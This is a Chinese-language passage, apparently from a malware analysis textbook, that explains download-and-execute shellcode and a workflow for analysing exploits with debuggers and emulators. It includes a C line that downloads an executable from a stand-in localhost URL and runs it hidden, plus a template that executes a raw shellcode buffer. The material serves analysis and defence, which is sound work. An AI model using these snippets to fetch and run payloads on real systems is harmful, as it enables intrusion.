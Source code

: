 ```
URLDownloadToFile(LPUNKNOWN pCaller, LPCTSTR szURL, LPCTSTR szFileName, _Reserved_ DWORD dwReserved, LPBINDSTATUSCALLBACK lpfnCB);
```

只需要 `szURL` 和 `szFilename`。其余的参数通常设置为 null。文件下载完成后，shellcode 会使用 `CreateProcessA`、`WinExec` 或 `ShellExecute` 执行该文件。对应的 C 代码可能如下所示：

```
URLDownloadToFileA(0,"https://localhost:4444/calc.exe","calc.exe",0,0); WinExec("calc.exe",SW_HIDE);
```

正如你所看到的，payload 非常简单，却非常有效地执行了攻击的第二阶段，这可能是一个后门，用于维持持久性，并与攻击者通信，窃取有价值的信息。

## 漏洞的静态与动态分析

现在我们已经了解了漏洞的样子以及它们的工作原理，接下来总结一些分析漏洞时的实用技巧和窍门。

### 分析工作流程

首先，你需要仔细收集任何先前的知识：漏洞是在哪种环境中发现的，是否已经知道了被攻击的软件及其版本，以及漏洞是否已经成功触发。所有这些信息将帮助你正确模拟测试环境，并成功重现预期的行为，这对于动态分析非常有帮助。

其次，确认攻击载荷如何与目标应用程序交互也很重要。通常，攻击载荷通过预期的输入通道传递（无论是监听的套接字、Web 表单或 URI，还是可能是格式不正确的文档、配置文件或 JavaScript 脚本），但也可能有其他被忽视的选项（例如，环境变量和依赖模块）。此时，下一步是使用这些信息成功重现攻击过程，并识别可以确认攻击的指示器。例如，目标应用程序可能会以某种特定方式崩溃，或执行特定的操作，可以通过适当的系统监控工具看到（例如，监控文件、注册表或网络操作或访问的 API）。如果涉及 Shellcode，其分析可能会提供有关预期攻击后行为的有价值信息。

在此之后，你需要识别目标漏洞。MITRE 公司通过为所有公开已知的漏洞分配相应的**常见漏洞和暴露**（**CVE**）标识符，来维护一个漏洞列表，便于参考（例如，CVE-2018-9206）。有时，可能已经通过杀毒软件检测或公开发布知道该漏洞，但无论如何，最好进行确认。

首先检查独特的字符串，因为它们可能会给你提供关于目标软件交互部分的线索。与大多数其他类型的恶意软件不同，静态分析在这种情况下可能不够。由于攻击载荷与目标软件密切合作，因此需要在其上下文中进行分析，这在许多情况下需要动态分析。

在这里，你需要使用自己偏好的调试器拦截攻击载荷的交付时刻，但此时载荷尚未被处理。之后，可以通过多种方式继续分析。一种方法是仔细检查负责处理该载荷的高层函数（无需逐个进入每个函数），并监视触发时刻。一旦触发，就有可能缩小搜索范围，集中精力分析已识别函数的子函数。然后，工程师可以重复此过程，直到找到漏洞为止。

另一种方法是先在攻击载荷中搜索可疑条目（如损坏的字段、具有高熵的大二进制块、包含十六进制符号的长行等），并监视目标软件如何处理它们。如果涉及到 Shellcode，可以在其开头用断点或无限循环指令修补（分别为`(\xCC`和`\xEB\xFE`），然后执行重现攻击的步骤，等待插入的指令执行，并检查堆栈跟踪，以查看哪些函数被调用以达到这一点。

总体而言，通常建议在虚拟化环境或仿真环境中进行动态分析，因为在漏洞利用的情况下，发生错误并失去执行控制的可能性更大。因此，能够恢复先前的调试和环境状态是非常方便的。

这些技术是通用的，可以应用于几乎所有类型的漏洞利用。无论工程师是否需要分析浏览器漏洞（通常是用 JavaScript 编写的）或本地权限提升代码，区别主要在于测试环境的设置。

### Shellcode 分析

如果您需要分析二进制 shellcode，您可以使用适用于目标架构和平台的调试器（例如 32 位 Windows 的 OllyDbg），通过复制 shellcode 的十六进制表示并使用二进制粘贴选项来进行分析。还可以使用**unicorn**、**libemu**（一个小型 x86 指令仿真库）或**Pokas x86 Emulator**等工具，这些工具是**pySRDF**项目的一部分，用于仿真 shellcode。其他有用的动态分析工具包括**scdbg**和**qltool**（**qiling**框架的一部分）。

另一种流行的解决方案是将其转换为可执行文件。之后，您可以像分析任何常见的恶意软件样本一样，静态和动态分析它。一种选择是使用`shellcode2exe.py`脚本，但不幸的是，它的一个核心依赖不再受支持，因此可能难以设置。另一种选择是通过将 shellcode 复制并粘贴到相应的模板中，手动编译可执行文件：

```
unsigned char code[] = {<output of xxd –i against the shellcode>};
int main(int argc, char **argv)
{
        int (*func)();
        func = (int (*)()) code;
        (int)(*func)();
}
```
